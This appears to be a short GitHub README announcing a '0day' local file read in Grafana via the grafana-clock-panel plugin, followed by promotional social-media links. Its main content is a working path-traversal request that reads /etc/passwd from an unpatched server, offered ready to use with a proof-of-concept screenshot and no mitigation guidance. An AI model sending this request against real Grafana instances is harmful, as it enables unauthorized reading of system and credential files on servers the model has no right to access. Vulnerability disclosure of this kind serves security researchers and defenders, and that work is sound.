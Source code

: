 # grafana-unauth-file-read

Unauthorized reading of files in Grafana (0day)

It looks like the new 0day LFI in Grafana exists thanks to the grafana-clock-panel plugin. It is enough to send a GET request of the form:

```GET /public/plugins/grafana-clock-panel/../../../../../../../etc/passwd```

### Proof
![PoC](https://raw.githubusercontent.com/Vulnmachines/grafana-unauth-file-read/main/Grafana.PNG)

### Follow us
#### [Youtube](https://www.youtube.com/c/rapidsafeguard)
#### [Twitter](https://www.twiiter.com/rapidsafeguard)
#### [Telegram](https://t.me/rapidsafeguard)
#### [Vulnmachines.com](https://www.vulnmachines.com)
#### [LinkedIn](https://www.linkedin.com/in/punit-darji-5500/)
#### [Business query](https://www.rapidsafeguard.com)
#### [LinkedIn](https://www.linkedin.com/in/punit-darji-5500/)

